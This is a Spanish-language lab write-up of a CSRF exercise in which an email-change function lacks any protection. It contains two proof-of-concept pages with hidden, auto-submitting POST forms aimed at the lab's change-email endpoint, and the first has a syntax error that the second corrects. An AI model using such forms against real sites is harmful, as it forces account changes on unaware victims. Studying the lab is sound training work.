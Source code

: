 En esta clase abordamos un caso básico de vulnerabilidad CSRF, en el que una funcionalidad sensible —el cambio de correo electrónico— carece de cualquier tipo de protección. Esto nos permite forzar acciones en la cuenta de un usuario autenticado simplemente haciendo que cargue una página con un formulario oculto y autoenviado.

La técnica consiste en construir una petición POST con los mismos parámetros que la funcionalidad legítima, y luego alojarla en el servidor de explotación proporcionado. Al incluir un pequeño script que autoenvía el formulario al cargar la página, conseguimos que la víctima realice la acción sin saberlo, usando su propia sesión activa.

Este laboratorio representa el escenario más sencillo de explotación CSRF, y sienta las bases para los siguientes ejercicios donde se introducirán mecanismos de defensa como tokens, verificación de cabeceras o validaciones del lado servidor.

Solucion
bueno para emepzar lo que seria lo ideal seria copiar el codigo fuente o el formulario en esta ocacion de la pagina que queremos vulnerar
en este caso le vamos a dar click derecho y editar como html
![Pasted_image_20250722165509.png](Imagenes/Pasted_image_20250722165509.png)
para ello tenemos que modificar el codigo eliminando algunas cosas y checando cuales son los formularios en este caso solo tenemos uno y lo podemos ver de esta manera
![Pasted_image_20250722170136.png](Imagenes/Pasted_image_20250722170136.png)
document.forms[0]
y para mandarlo seria asi document.forms[0].submit()

"
<form class="login-form" name="change-email-form" action="https://0a4500280331c6b38165c03600fc0046.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacketd@hacketd.com">
</form>

<script>
    document.forms(0).submit():
</script>
"
Este podria ser otro

"
<form method="POST" action="https://0a4500280331c6b38165c03600fc0046.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hola@hola.com">
</form>
<script>
        document.forms[0].submit();
</script>
"
